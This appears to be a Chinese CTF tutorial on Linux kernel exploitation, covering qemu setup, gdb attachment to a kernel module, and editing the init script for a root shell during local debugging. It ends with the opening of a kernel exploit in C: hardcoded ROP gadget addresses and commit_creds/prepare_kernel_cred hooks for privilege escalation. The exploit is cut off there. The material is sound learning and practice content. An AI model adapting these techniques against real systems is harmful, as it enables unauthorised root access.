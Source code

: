 #### qemu

- 做题时最好首先file一下确认文件类型，如果不是cpio文件则在本地调试时应按照原先的打包方式打包回去，否则可能会出现无法启动等问题。有的题目会给出打包文件系统的shell文件，需要重点关注。

- 如果题目给的内核跑不动，可以尝试将boot.sh中申请的内存改大些（即qemu的-m选项后面，如果64M跑不动就改成128M试试）。

- 在入门测试时，经常会遇到内核启动不了，一直在重启的情况，将控制台强行叉掉后再开启可能会显示：`qemu-system-x86_64: -s: Failed to find an available port: Address already in use`。这是因为强制关闭后，qemu占用的端口还未被清除。解决方法：使用`lsof -i tcp:<port>`命令查看指定端口的占用情况，在start.sh中看到了qemu后的-s选项说明默认端口为1234。此时即输入`lsof -i tcp:1234`，找到占用的pid将其kill即可：`kill <pid>`

#### gdb调试

和用户态调试不同，kernel的调试需要我们attach到qemu开放的端口

```sh
sudo gdb
file vmlinux # 载入符号信息
target remote localhost:1234 # -s 默认为1234端口

```

在本地调试的时候可以先用root调试，获取进程的基地址方便下断点

```sh
# qemu里获取基地址，通常基址的偏移相同，需要在gdb attach之前进行
cat /sys/module/xxx/sections/.text
cat /sys/module/xxx/sections/.data
cat /sys/module/xxx/sections/.bss

# 在gdb中设置基地址
add-symbol-file ./xxx.ko text_base -s .data data_base -s .bss bss_base 
```

修改为root

```sh
setsid /bin/cttyhack setuidgid 1000 /bin/sh
=> setsid /bin/cttyhack setuidgid 0 /bin/sh
```

### exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

void saveStatus();
void get_address();
void coreRead(char* buf);
void coreCopyFunc(size_t length);
void edit_off(size_t num);
void shell();
void print_binary(char* buf, int length);

// gadget 

const size_t pop_rdi_ret=0xffffffff81000b2f; 
const size_t pop_rdx_ret=0xffffffff810a0f49; 
const size_t pop_rcx_ret=0xffffffff81021e53; 
const size_t swapgs_popfq_ret=0xffffffff81a012da; 
const size_t iretq_ret=0xffffffff81050ac2; 
const size_t mov_rdi_rax_call_rdx=0xffffffff8101aa6a; 

int fd=0;
size_t commit_creds=0, prepare_kernel_cred=0;
```